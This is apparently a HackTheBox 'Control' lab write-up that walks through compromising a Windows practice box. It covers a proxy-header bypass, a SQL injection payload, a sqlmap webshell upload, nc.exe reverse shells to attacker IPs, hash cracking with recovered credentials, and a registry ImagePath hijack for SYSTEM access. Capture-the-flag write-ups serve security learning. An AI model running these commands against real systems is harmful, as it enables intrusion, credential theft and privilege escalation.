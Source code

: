 ```yaml
---
title: "HTB: Control"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```



![Control](https://miro.medium.com/max/2866/0*VVgNDHYF1kz8pziK)

## Website Enumeration

In the source code of the index page for http://control.htb/ we see the following message:
```
<!-- To Do:
	- Import Products
	- Link to new payment system
	- Enable SSL (Certificates location \\192.168.4.28\myfiles)
<!-- Header -->
```

We'll keep this in mind for later.

At http://control.htb/admin.php there's a blank page with the message:

_Access Denied: Header Missing. Please ensure you go through the proxy to access this page_

To bypass this, we'll use the IP we grabbed above and add an X-Forwarded-For header:

```
X-Forwarded-For: 192.168.4.28
```

So, our entire request will look like:

```
GET /admin.php HTTP/1.1

Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.4.28/
X-Forwarded-For: 192.168.4.28
Connection: close
Upgrade-Insecure-Requests: 1
```

We're given access to the admin.php page!


test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,load_file('C:/inetpub/wwwroot/admin.php')#

## Getting a Webshell/Reverse Shell

It's possible to upload a webshell using sqlmap:

```
sqlmap -r request.txt --file-dest="C:/inetpub/wwwroot/wolfshell.php" --file-write="wolfshell.php"
```

Using this "wolfshell" we are able to upload nc.exe to the server, and return a reverse shell to ourselves.

## Getting User Credentials

By dumping the DB, we found some credentials for users:

```
0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
0A4A5CAD344718DC418035A1F4D292BA603134D8
```

If we run these through hashcat, we can get a password!

```
hashcat -m 300 cracked.txt /usr/share/wordlists/rockyou.txt --force
```

We get:

**l33th4x0rhector**

So, our credentials are:

**hector:l33th4x0rhector**

## Pivoting to Hector

Now, using switch.ps1, we are able to open a semi-interactive shell as hector. First, we'll need to give him access to run nc.exe:

```
cacls C:/TEMP/nc.exe /e /p hector:f
```

Now, after uploading our switch.ps1 shell, we can run it:

```
./switch.ps1
[localhost]: PS C:\Users\Hector\Documents> C:/TEMP/nc.exe -nv 10.10.14.26 4444 -e cmd.exe
```

Voila, a fully interactive user cmd shell!

### Switch.ps1 Script

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "control\hector" ; $pw = "l33th4x0rhector" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```
                                         
Voila, a CONTROL\hector shell!

From here, we need to see what services are running. We can't use accesschk.exe, as we get "Access Denied" and we can't use procmon.exe, as it's completely blocked on the machine. Additionally, we can't use tasklist to list running tasks and get info that way. We can, however, query the registry.

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\
```

We get a LONG list of services.

We can test to see which of these we can start (note, there are quite a few.) We'll need to copy all of the services, save the list on our local machine, and cut it. 

```
cat services.txt | cut -d '\' -f5 >> servicelist.txt
```

From here, we can use awk to add whatever we need to:

```
awk '{print "sc start " $0}' servicelist.txt | pbcopy
```

I've opted to use pbcopy for this, but we can use whatever program we wish to. We're simply piping the output into our clipboard.

Now, we'll paste this into our command window. Note, it needs to be cmd, not powershell. Powershell doesn't start or stop the services.

We can see that the following service can be started (among others):

```
NetSetupSvc
```

Because it can be started, we'll take a look at the parameters held within the registry for this service:

```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc
    DependOnService    REG_MULTI_SZ    RpcSs
    Description    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-4
    DisplayName    REG_SZ    @%SystemRoot%\system32\NetSetupSvc.dll,-3
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    FFFFFFFF000000000000000001000000140000000000000000000000
    ImagePath    REG_EXPAND_SZ    %SystemRoot%\System32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeChangeNotifyPrivilege\0SeImpersonatePrivilege\0SeLoadDriverPrivilege
    ServiceSidType    REG_DWORD    0x1
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Parameters
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\Security
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc\TriggerInfo
```

ImagePath looks interesting, as it's calling an executable and passing parameters to it. We'll edit this and see if we can get it to return a shell to us:

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetSetupSvc /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\alcibiades\Documents\nc.exe -nv 10.10.14.5 4444 -e cmd.exe"  /f
```

With the ImagePath changed, we'll try to start the service with hector:

```
sc start NetSetupSvc
```

Now, we just catch the shell!

```
Microsoft Windows [Version 10.0.17763.805]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```




